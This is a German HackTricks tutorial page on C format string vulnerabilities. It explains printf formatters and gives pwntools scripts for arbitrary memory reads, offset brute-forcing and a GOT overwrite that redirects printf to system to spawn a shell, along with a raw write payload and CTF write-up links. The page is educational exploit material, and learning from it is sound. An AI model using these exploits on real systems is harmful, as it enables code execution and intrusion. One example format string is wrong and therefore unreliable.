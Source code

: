 # Format Strings

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks beworben sehen**? Oder möchten Sie Zugriff auf die **neueste Version des PEASS erhalten oder HackTricks im PDF-Format herunterladen**? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das** [**HackTricks-Repository**](https://github.com/carlospolop/hacktricks) **und das** [**HackTricks-Cloud-Repository**](https://github.com/carlospolop/hacktricks-cloud) **senden**.

</details>

## Grundlegende Informationen

In C ist **`printf`** eine Funktion, die verwendet werden kann, um einen **String auszugeben**. Der **erste Parameter**, den diese Funktion erwartet, ist der **rohe Text mit den Formatierern**. Die **folgenden erwarteten Parameter** sind die **Werte**, die die **Formatierer** des Rohtexts **ersetzen** sollen.

Andere anfällige Funktionen sind **`sprintf()`** und **`fprintf()`**.

Die Verwundbarkeit tritt auf, wenn ein **Angreifertext als erster Argument** an diese Funktion übergeben wird. Der Angreifer kann einen **speziellen Eingabe missbrauchen**, um die **Fähigkeiten der printf-Formatzeichenfolge** zu nutzen und beliebige Daten an **beliebiger Adresse zu lesen und zu schreiben (lesbar/schreibbar)**. Auf diese Weise kann er **beliebigen Code ausführen**.

#### Formatierer:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Beispiele:**

* Verwundbares Beispiel:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Verwendung:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Mit fehlenden Argumenten:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf anfällig:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input cna include formatters!
fclose(output_file);
return 0;
}
```
### **Zugriff auf Zeiger**

Das Format **`%<n>$x`**, wobei `n` eine Zahl ist, ermöglicht es printf anzuweisen, den n-ten Parameter (vom Stack) auszuwählen. Wenn Sie also den vierten Parameter vom Stack mit printf lesen möchten, könnten Sie Folgendes tun:
```c
printf("%x %x %x %x")
```
und Sie würden vom ersten bis zum vierten Parameter lesen. 

Oder Sie könnten Folgendes tun:
```c
printf("$4%x")
```
und lesen Sie direkt den vierten.

Beachten Sie, dass der Angreifer den `pr`**`intf`-Parameter kontrolliert, was im Grunde bedeutet, dass** seine Eingabe im Stapel liegt, wenn `printf` aufgerufen wird, was bedeutet, dass er spezifische Speicheradressen im Stapel schreiben könnte.

{% hint style="danger" %}
Ein Angreifer, der diese Eingabe kontrolliert, kann **beliebige Adressen im Stapel hinzufügen und `printf` dazu bringen, darauf zuzugreifen**. Im nächsten Abschnitt wird erläutert, wie dieses Verhalten genutzt werden kann.
{% endhint %}

## **Beliebiges Lesen**

Es ist möglich, den Formatter **`%n$s`** zu verwenden, um **`printf`** die **Adresse** zu erhalten, die sich an der **n-Position** befindet, und sie dann zu **drucken, als ob es ein String wäre** (drucken, bis eine 0x00 gefunden wird). Wenn die Basisadresse der Binärdatei **`0x8048000`** ist und wir wissen, dass die Benutzereingabe an der 4. Position im Stapel beginnt, ist es möglich, den Anfang der Binärdatei mit zu drucken:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Beachten Sie, dass Sie die Adresse 0x8048000 nicht am Anfang der Eingabe platzieren können, da die Zeichenfolge am Ende dieser Adresse mit 0x00 abgeschnitten wird.
{% endhint %}

### Offset finden

Um den Offset für Ihre Eingabe zu finden, könnten Sie 4 oder 8 Bytes (`0x41414141`) senden, gefolgt von **`%1$x`** und den Wert **erhöhen**, bis die `A's` zurückgegeben werden.

<details>

<summary>Brute-Force-Printf-Offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Wie nützlich

Arbiträre Lesevorgänge können nützlich sein, um:

* **Den** **Binärcode** aus dem Speicher zu **dumpen**
* **Auf spezifische Speicherbereiche zuzugreifen, in denen sensible** **Informationen** gespeichert sind (wie Prüfsummen, Verschlüsselungsschlüssel oder benutzerdefinierte Passwörter wie in dieser [**CTF-Herausforderung**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbiträres Schreiben**

Der Formatter **`$<num>%n`** **schreibt** die **Anzahl der geschriebenen Bytes** in die **angegebene Adresse** im \<num> Parameter im Stapel. Wenn ein Angreifer so viele Zeichen wie möglich mit printf schreiben kann, wird er in der Lage sein, **`$<num>%n`** dazu zu bringen, eine beliebige Zahl an einer beliebigen Adresse zu schreiben.

Glücklicherweise ist es nicht erforderlich, 9999 "A"s zur Eingabe hinzuzufügen, um die Zahl 9999 zu schreiben. Stattdessen ist es möglich, den Formatter **`%.<num-write>%<num>$n`** zu verwenden, um die Zahl **`<num-write>`** in die **Adresse zu schreiben, auf die die Position `num` zeigt**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Jedoch ist zu beachten, dass normalerweise zur Angabe einer Adresse wie `0x08049724` (was eine RIESIGE Zahl ist, um sie auf einmal zu schreiben), **`$hn`** anstelle von `$n` verwendet wird. Dies ermöglicht es, **nur 2 Bytes zu schreiben**. Daher wird diese Operation zweimal durchgeführt, einmal für die höchsten 2 Bytes der Adresse und ein weiteres Mal für die niedrigeren.

Daher ermöglicht diese Schwachstelle, **beliebige Daten an beliebige Adressen zu schreiben (beliebiges Schreiben)**.

In diesem Beispiel soll das Ziel sein, die **Adresse** einer **Funktion** in der **GOT-Tabelle** zu **überschreiben**, die später aufgerufen wird. Obwohl dies auch andere Techniken zum Ausführen von beliebigem Code durch beliebiges Schreiben ausnutzen könnte:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Wir werden eine **Funktion überschreiben**, die ihre **Argumente** vom **Benutzer erhält** und sie auf die **`system`**-**Funktion** zeigt.\
Wie bereits erwähnt, sind in der Regel 2 Schritte erforderlich, um die Adresse zu schreiben: Sie schreiben zuerst 2 Bytes der Adresse und dann die anderen 2. Dazu wird **`$hn`** verwendet.

* **HOB** wird für die 2 höheren Bytes der Adresse aufgerufen
* **LOB** wird für die 2 niedrigeren Bytes der Adresse aufgerufen

Dann, aufgrund der Funktionsweise von Formatstrings, müssen Sie zuerst das kleinere von \[HOB, LOB] schreiben und dann das andere.

Wenn HOB < LOB\
`[Adresse+2][Adresse]%.[HOB-8]x%[Offset]\$hn%.[LOB-HOB]x%[Offset+1]`

Wenn HOB > LOB\
`[Adresse+2][Adresse]%.[LOB-8]x%[Offset+1]\$hn%.[HOB-LOB]x%[Offset]`

HOB LOB HOB\_Shellcode-8 NºParam\_dir\_HOB LOB\_Shell-HOB\_Shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Vorlage

Sie können eine **Vorlage** finden, um einen Exploit für diese Art von Schwachstelle vorzubereiten unter:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Oder dieses grundlegende Beispiel von [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings zu BOF

Es ist möglich, die Schreibaktionen einer Format-String-Schwachstelle zu missbrauchen, um **Adressen des Stacks zu schreiben** und eine Schwachstelle vom Typ **Buffer Overflow** auszunutzen.

## Weitere Beispiele & Referenzen

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 Bit, kein Relro, kein Canary, NX, kein PIE, grundlegende Verwendung von Format-Strings zum Auslesen der Flagge vom Stack (keine Notwendigkeit, den Ausführungsfluss zu ändern)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 Bit, Relro, kein Canary, NX, kein PIE, Format-String zum Überschreiben der Adresse `fflush` mit der Win-Funktion (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 Bit, Relro, kein Canary, NX, kein PIE, Format-String zum Schreiben einer Adresse innerhalb von `main` in `.fini_array` (damit der Fluss 1 Mal mehr zurückkehrt) und Schreiben der Adresse zu `system` in der GOT-Tabelle, die auf `strlen` zeigt. Wenn der Fluss zu `main` zurückkehrt, wird `strlen` mit Benutzereingabe ausgeführt und zeigt auf `system`, es werden die übergebenen Befehle ausgeführt.
